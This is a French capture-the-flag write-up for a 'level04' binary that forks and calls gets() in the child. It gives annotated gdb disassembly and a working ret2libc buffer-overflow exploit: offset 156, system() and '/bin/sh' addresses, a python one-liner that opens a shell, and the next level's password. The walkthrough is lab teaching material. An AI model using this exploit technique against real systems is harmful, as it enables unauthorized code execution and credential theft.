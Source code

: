 # Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

## Binaire

`./level04`
```
Give me some shellcode, k

```
`test`
```

child is exiting...
```
## Gdb

`info function`
```asm
[...]
  0x080486c8  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0                             ; 176 octets pour la stack
   0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax             ; int pid @ esp+0xac = fork();
   0x080486e2 <+26>:	lea    ebx,[esp+0x20]                       ; input @ esp+0x20
   0x080486e6 <+30>:	mov    eax,0x0
   0x080486eb <+35>:	mov    edx,0x20
   0x080486f0 <+40>:	mov    edi,ebx
   0x080486f2 <+42>:	mov    ecx,edx
   0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax             ; memset(buffer, 0, 32);
   0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0             ; int ret @ esp+0xa8 = 0
   0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0             ; int status @ esp+0x1c = 0
   0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:	jne    0x8048769 <main+161>                 ; if pid != 0:  jump <+161> 
   0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:	call   0x8048540 <prctl@plt>                ; prctl(1, 1);
   0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:	call   0x8048570 <ptrace@plt>               ; ptrace(0, 0, 0, 0);
   0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:	call   0x8048500 <puts@plt>                 ; puts("Give me some shellcode, k");
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>                 ; gets(input);
   0x08048763 <+155>:	jmp    0x804881a <main+338>                 ; jump <+338>
   0x08048768 <+160>:	nop
   0x08048769 <+161>:	lea    eax,[esp+0x1c]
   0x0804876d <+165>:	mov    DWORD PTR [esp],eax
   0x08048770 <+168>:	call   0x80484f0 <wait@plt>                 ; wait(&status);
   0x08048775 <+173>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:	mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:	mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:	and    eax,0x7f
   0x0804878a <+194>:	test   eax,eax
   0x0804878c <+196>:	je     0x80487ac <main+228>                 ; if status & 0x7f == 0: jump <+228>
   0x0804878e <+198>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:	mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:	mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:	and    eax,0x7f
   0x080487a3 <+219>:	add    eax,0x1
   0x080487a6 <+222>:	sar    al,1
   0x080487a8 <+224>:	test   al,al
   0x080487aa <+226>:	jle    0x80487ba <main+242>                 ; if (status & 0x7f) >> 1 <= 0: jump <+242>
   0x080487ac <+228>:	mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:	call   0x8048500 <puts@plt>                 ; puts("child is exiting...");
   0x080487b8 <+240>:	jmp    0x804881a <main+338>                 ; return(0);
   0x080487ba <+242>:	mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:	mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:	mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:	mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:	mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:	call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:	mov    DWORD PTR [esp+0xa8],eax             ; ret = ptrace(3, pid, 44, 0)
   0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:	jne    0x8048768 <main+160>                 ; if ret !== 11: jump <+160> (boucle)
   0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:	call   0x8048500 <puts@plt>                 ; puts("no exec() for you");
   0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:	mov    DWORD PTR [esp],eax
   0x08048814 <+332>:	call   0x8048520 <kill@plt>                 ; kill(pid, 9);
   0x08048819 <+337>:	nop
   0x0804881a <+338>:	mov    eax,0x0                              ; return(0);
   0x0804881f <+343>:	lea    esp,[ebp-0x8]
   0x08048822 <+346>:	pop    ebx
   0x08048823 <+347>:	pop    edi
   0x08048824 <+348>:	pop    ebp
   0x08048825 <+349>:	ret
End of assembler dump.
```

# Exploit

Le programme crée un child process avec un fork() qui exécute un peu plus loin un appel à gets() sur l'input que nous contrôlons (donc vulnérable à un buffer overflow), puis return.

Le parent quant à lui boucle en suivant l'exécution du child, tant qu'il ne lance pas le syscall [11: execve()](https://redirect.cs.umbc.edu/courses/undergraduate/313/spring04/burt_katz/lectures/Lect07/syscall_offline.html):
Attend un changement de statut de l'enfant, s'il a été interrompu ou a quitté (cf. [waitstatus.h](https://github.com/lattera/glibc/blob/master/bits/waitstatus.h)), affiche "child is exiting..." et return(0); 

En sortie de boucle (l'enfant a tenté un execve()), il affiche "no exec() for you", le kill et retun(0);

La stack est exécutable, mais le check sur execve() nous empêche de lancer un shellcode classique donc on va effectuer un [retour a la libc](https://beta.hackndo.com/retour-a-la-libc/).

Pour trouver l'offset on va devoir spécifier à gdb de suivre l'exécution du process enfant et se servir comme d'habitude du [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

`gdb level04`
- `set follow-fork-mode child`
- `r`
  ```
  Starting program: /home/users/level04/level04
  [New process 3213]
  Give me some shellcode, k
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

  Program received signal SIGSEGV, Segmentation fault.
  [Switching to process 3213]
  0x41326641 in ?? ()
  ```
  - Le générateur de pattern nous indique un offset de 156 pour la valeur 0x41326641

Notre exploit sera composé comme suit: [ Offset de 156 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "\x90" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level04`
```
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
